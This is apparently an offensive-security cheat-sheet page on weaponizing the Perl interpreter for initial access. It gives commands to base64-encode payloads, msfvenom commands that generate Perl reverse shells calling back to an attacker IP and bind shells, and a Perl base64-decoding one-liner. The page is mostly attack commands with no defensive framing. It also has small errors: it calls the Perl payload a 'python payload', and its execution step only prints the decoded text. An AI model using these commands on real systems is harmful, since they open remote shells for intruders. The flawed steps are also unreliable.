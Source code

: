 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - client-side-attacks
  - cross-platform
  - perl
---
```

# Manual

> [!INFO] Preinstalled Interpreter
> The `perl` interpreter is preinstalled across all of the GNU/Linux operating systems.

## 01 - Base64 Encoded

Encode the python payload.

```
$ basenc -w 0 --base64 payload.pl

$ base64 -w 0 payload.pl

$ openssl enc -a -e -A -in payload.pl

$ openssl enc -base64 -A -in payload.pl
```

## 02 - Generate Payloads

### 2.1 - Linux

#### 2.1.1 - Generate a payload via `msfvenom`

##### 2.1.1.1 - Reverse Shells

Stageless TCP reverse shell.

```
$ msfvenom -p cmd/unix/reverse_perl lhost=<IP> lport=<PORT>
```

Stageless TLS reverse shell.

```
$ msfvenom -p cmd/unix/reverse_perl_ssl handlersslcert=[/path/to/file.pem] sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT>
```

##### 2.1.1.2 - Bind Shells

```
$ msfvenom -p cmd/unix/bind_perl lport=<PORT>

$ msfvenom -p cmd/unix/bind_perl_ipv6 lport=<PORT>
```

## 03 - Execute Payloads

> [!TIP]
> On windows, you can combine with a enumeration function to check one of the [[Compilers|compilers]] exist in order to execute the payload especially when the target is windows.

### 3.1 - Cross Platform

```
> perl -MMIME::Base64 -e 'print decode_base64("<base64_payload>")'
```

---
## References

### GTFOBins

- [GTFOBins: Perl](https://gtfobins.github.io/gtfobins/perl/)

- [GTFOBins: Perlbug](https://gtfobins.github.io/gtfobins/perlbug/)